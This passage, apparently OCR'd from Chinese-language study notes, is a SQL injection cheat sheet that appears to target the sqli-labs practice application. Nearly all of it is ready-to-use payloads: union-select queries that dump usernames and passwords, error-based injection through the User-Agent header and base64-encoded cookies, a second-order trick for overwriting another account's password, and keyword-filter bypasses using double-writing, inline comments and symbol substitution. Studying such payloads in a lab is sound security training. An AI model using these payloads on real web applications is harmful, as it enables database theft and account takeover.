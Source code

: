 >           -- 查出数据库所有数据
>           uname=-admin' union select group_concat(username,password),2 from users#&passwd=&submit=Submit
>               
>           uname=-admin' union select group_concat(username SEPARATOR '-'),2 from users#&passwd=&submit=Submit
>           ```
>
>   -   **基于User-Agent注入**
>
>       -   ```sql
>           -- 首先对User-Agent末尾添加单引号判断是否报错
>           -- 通过单引号闭合进行payload构造
>           ' and '1' = '1
>               
>           -- 直接构造报错注入的payload
>           ' and (updatexml(1,concat(0x7e,user(),0x7e),1)) and '1' = '1
>           ```
>
>   -   **基于base64编码加密的双引号Cookie注入**
>
>       -   ```sql
>           -- 基于base64的单引号注入
>           ' and (updatexml(1,concat(0x7e,user(),0x7e),1)) and '1' = '1
>               
>           -- 基于base64双引号注入
>           " and (updatexml(1,concat(0x7e,user(),0x7e),1)) and "1" = "1
>           ```
>
>   -   **基于get错误的过滤注释（过滤  # 和 -- ）**
>
>       -   ```sql
>           -- 使用直接注入
>               
>           ' union select 1,(select database()),3 and '1'= '1
>           ' union select 1,(select group_concat(username,password ) from users),3  and  '1' = '1
>           ```
>
>   -   **二次排序注入-存储型注入**
>
>       -   ```sql
>           -- 思路
>           创建一个已经在数据库中名字一样的账号，不过再名字后面添加一个 '# 号'
>           数据库会判断错误，相当于修改了第一个的密码
>           ```
>
>   -   **OR及AND过滤**
>
>       -   ```sql
>           -- 符号替换绕过数学符号
>           and = &&  
>           or = ||
>           &对应url编码%26
>           |对应url编码%7
>           ?id=1'||  extractvalue(1,concat(0x7e,(select user()),0x7e))%23
>           ?id=1'||  extractvalue(1,concat(0x7e,(select user()),0x7e))--+
>                           
>           -- 双写绕过
>           oorr # 替换为空仍为oranandd # 替换为空仍为and
>           ?id=1'oorr  extractvalue(1,concat(0x7e,(select user()),0x7e))%23
>                           
>           -- 注释绕过
>           and = an/**/d    or = o/**/r
>